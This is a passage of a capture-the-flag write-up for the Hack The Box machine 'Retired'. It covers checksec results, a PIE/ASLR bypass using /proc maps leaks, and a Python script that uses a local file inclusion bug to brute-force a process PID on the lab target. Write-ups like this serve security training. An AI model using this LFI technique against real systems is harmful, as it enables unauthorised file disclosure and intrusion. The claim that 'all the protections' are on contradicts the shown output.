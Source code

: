First of all, the binary has all the protections on:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Retired]
└─$ checksec activate_license
[*] '/home/kali/Documents/HTB/Retired/activate_license'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Since PIE and ASLR are enabled, the binary, external libraries, stack... are allocated randomly when the binary is executed. The thing is that, even though the base addresses change, the offsets from the base address to any part of the library or binary are always the same.

In order to bypass the protections, we need to somehow leak information about the base addresses of the binary in memory and also the loaded libraries. Locally, the way to do this is going to the `/proc` folder, search the folder with the PID name of the process and checking the file called `maps`:

```bash
┌──(kali㉿kali)-[/proc/5712]
└─$ cat maps       
55a4af3a5000-55a4af3a6000 r--p 00000000 08:01 3715345                    /home/kali/Documents/HTB/Retired/activate_license
55a4af3a6000-55a4af3a7000 r-xp 00001000 08:01 3715345                    /home/kali/Documents/HTB/Retired/activate_license
...
7fcd3ca34000-7fcd3ca5a000 r--p 00000000 08:01 801158                     /usr/lib/x86_64-linux-gnu/libc-2.33.so
7fcd3ca5a000-7fcd3cba2000 r-xp 00026000 08:01 801158                     /usr/lib/x86_64-linux-gnu/libc-2.33.so
7fcd3cba2000-7fcd3cbed000 r--p 0016e000 08:01 801158                     /usr/lib/x86_64-linux-gnu/libc-2.33.so
7fcd3cbed000-7fcd3cbee000 ---p 001b9000 08:01 801158                     /usr/lib/x86_64-linux-gnu/libc-2.33.so
7fcd3cbee000-7fcd3cbf1000 r--p 001b9000 08:01 801158                     /usr/lib/x86_64-linux-gnu/libc-2.33.so
7fcd3cbf1000-7fcd3cbf4000 rw-p 001bc000 08:01 801158                     /usr/lib/x86_64-linux-gnu/libc-2.33.so
...
7ffe7dd76000-7ffe7dd97000 rw-p 00000000 00:00 0                          [stack]
7ffe7ddf5000-7ffe7ddf9000 r--p 00000000 00:00 0                          [vvar]
7ffe7ddf9000-7ffe7ddfb000 r-xp 00000000 00:00 0                          [vdso]
```

Obviously, this information is useless in the remote machine but we have LFI in the box web server so it is possible to do this same thing for it. I wrote a little Python script that first locate the process PID and then prints the memory information of the process:

```python
import requests

target_ip = '10.10.11.154'

print('Leaking process, running...')

pid = 0
for guess_pid in range(400, 10000):
	payload = f'file:///proc/{guess_pid}/cmdline'
	url = f'http://{target_ip}/index.php?page={payload}'
	response = requests.get(url)
	if(response.text and 'license' in response.text):
		pid = guess_pid
		print(f'PID {pid} --> {response.text}')
		break
```